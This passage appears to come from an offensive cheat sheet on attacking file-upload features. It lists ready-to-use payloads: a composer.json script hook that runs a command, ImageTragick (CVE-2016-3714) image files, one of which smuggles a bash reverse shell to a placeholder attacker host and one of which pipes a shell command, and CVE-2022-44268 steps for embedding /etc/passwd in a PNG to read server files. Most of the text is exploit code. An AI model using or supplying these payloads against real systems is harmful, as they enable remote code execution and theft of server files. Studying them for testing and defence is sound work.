 * composer.json

    ```js
    "scripts": {
        "pre-command-run" : [
        "/bin/touch /tmp/pwned.txt"
        ]
    }
    ```

### CVE - ImageMagick

If the backend is using ImageMagick to resize/convert user images, you can try to exploit well-known vulnerabilities such as ImageTragik.

#### CVE-2016–3714 - ImageTragik

Upload this content with an image extension to exploit the vulnerability (ImageMagick , 7.0.1-1)

* ImageTragik - example #1

    ```powershell
    push graphic-context
    viewbox 0 0 640 480
    fill 'url(https://127.0.0.1/test.jpg"|bash -i >& /dev/tcp/attacker-ip/attacker-port 0>&1|touch "hello)'
    pop graphic-context
    ```

* ImageTragik - example #3

    ```powershell
    %!PS
    userdict /setpagedevice undef
    save
    legal
    { null restore } stopped { pop } if
    { legal } stopped { pop } if
    restore
    mark /OutputFile (%pipe%id) currentdevice putdeviceprops
    ```

The vulnerability can be triggered by using the `convert` command.

```ps1
convert shellexec.jpeg whatever.gif
```

#### CVE-2022-44268

CVE-2022-44268 is an information disclosure vulnerability identified in ImageMagick. An attacker can exploit this by crafting a malicious image file that, when processed by ImageMagick, can disclose information from the local filesystem of the server running the vulnerable version of the software.

* Generate the payload

    ```ps1
    apt-get install pngcrush imagemagick exiftool exiv2 -y
    pngcrush -text a "profile" "/etc/passwd" exploit.png
    ```
